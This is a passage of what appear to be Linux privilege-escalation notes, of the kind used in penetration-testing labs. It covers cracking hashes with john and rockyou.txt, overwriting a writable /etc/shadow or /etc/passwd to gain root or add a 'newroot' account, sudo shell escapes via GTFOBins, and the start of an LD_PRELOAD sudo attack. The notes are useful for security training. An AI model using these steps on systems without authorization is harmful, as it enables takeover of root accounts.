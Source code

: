 john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt


su root
```


writable /etc/shadow file

```
ls -l /etc/shadow

mkpasswd -m sha-512 newpasswordhere

su root 
```



writable /etc/password

```
ls -l /etc/passwd

openssl passwd <password>
```
put password in x of root
```
su root
```
or

Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").






### 5.  SUDO



sudo shell escape sequence
```
sudo -l   
```
then look for instructions on website

https://gtfobins.github.io/






sudo Environment variables

```sudo -l ```

Create a shared object using the code located at 
```
/home/user/tools/sudo/preload.c:
